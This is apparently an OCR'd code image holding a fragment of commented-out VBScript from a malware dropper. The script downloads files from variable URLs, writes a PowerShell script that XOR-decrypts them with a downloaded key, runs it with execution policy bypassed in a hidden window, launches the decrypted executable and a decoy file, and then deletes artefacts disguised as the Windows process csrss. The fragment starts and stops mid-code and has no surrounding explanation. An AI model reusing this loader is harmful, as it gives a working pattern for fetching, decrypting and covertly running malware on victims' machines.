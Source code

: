 ```
# End If
# If Not objFSO.FileExists(strDownloadPath2) Then
#     DownloadFile strURL2, strDownloadPath2
# End If
# If Not objFSO.FileExists(strDownloadPath3) Then
#     DownloadFile strURL3, strDownloadPath3
# End If
# If Not objFSO.FileExists(strShowfilePath) Then
#     DownloadFile strShowfileURL, strShowfilePath
# End If

# strPowerShellScript = _
# "param (" & vbCrLf & _
# "    [string]$FilePath," & vbCrLf & _      
# "    [string]$KeyPath" & vbCrLf & _        
# ")" & vbCrLf & _
# "$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
# "$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
# "$keyLength = $key.Length" & vbCrLf & _    
# "for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
# "    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _    
# "}" & vbCrLf & _
# "[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

# Dim objFile
# On Error Resume Next
# Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
# If Err.Number <> 0 Then
#     WScript.Echo "Error creating PowerShell script file: " & Err.Description
#     WScript.Quit
# End If
# objFile.WriteLine strPowerShellScript      
# objFile.Close

# Dim arrFilePaths
# arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

# Dim i
# For i = 0 To UBound(arrFilePaths)
#     Dim intReturnCode
#     intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)  

#     If intReturnCode <> 0 Then
#         WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
#     End If
# Next

# objShell.Run strExecutablePath, 1, True    
# objShell.Run strShowfilePath, 1, True      
# objFSO.DeleteFile "C:\Users\Public\csrss.dll"
# objFSO.DeleteFile "C:\Users\Public\csrss.exe"
# objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
# objFSO.DeleteFile "C:\Users\Public\temp.ps1"

# Sub DownloadFile(url, path)
#     Dim objStream
#     Set objStream = CreateObject("ADODB.Stream")
#     objHTTP.Open "GET", url, False
#     objHTTP.Send
#     If objHTTP.Status = 200 Then
```